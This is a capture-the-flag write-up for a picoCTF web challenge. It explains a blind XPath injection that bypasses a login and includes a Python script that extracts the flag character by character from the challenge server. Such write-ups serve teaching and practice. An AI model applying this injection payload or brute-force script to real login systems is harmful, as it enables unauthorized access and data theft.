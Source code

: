  # Introduction
## Problem Details

Category: Web Exploitation
Points: 250
#### Description

Another login you have to bypass. Maybe you can find an injection that works?  [http://mercury.picoctf.net:33594/](http://mercury.picoctf.net:33594/)

## Writeup

This problem is very similar to `LIKE`-based blind SQLi. We can construct an XPATH injection that allows us to search the entire document for a string: `//*[contains(.,'some string')]`. This searches for any node that contains `'some string'`. We can use this to search for the flag. There should only be one node that contains `picoCTF{`, and we can use that to blindly crawl towards the flag, brute forcing incrementally. Whenever we enter a truthy query, we get `You're on the right track`. Whenever we enter a falsey query, we get `Login failed`. So we can iterate over every possible next character of the flag until we get a truthy query, at which point we know that is the next flag character. (About the injection: we need to prevent all other branches of the `OR` from being true, so that the query reduces to our node query). Once we have an injection, it's just a matter of incrementally finding the flag

```py
import string 
import requests 

# Sentinel to know if the character we entered is right or not
c = "right track"
# Checking function
check = lambda flag: c in requests.post('http://mercury.picoctf.net:33594/', { 'name': injection % flag, 'pass': pwd }).content 
# Injection
injection = "' or //*[contains(.,\"%s\")] or 'x'='" 
pwd = 'asdf' 
flag = "picoCTF{" 
# Build list of characters to check (flags are always alphanumeric + _, and end with })
options = string.ascii_letters + "_}" + string.digits 
# Build up flag
while  not flag[-1] == '}': 
    for i in options: 
        if check(flag + i): 
            flag = flag + i 
            print flag 
            break
```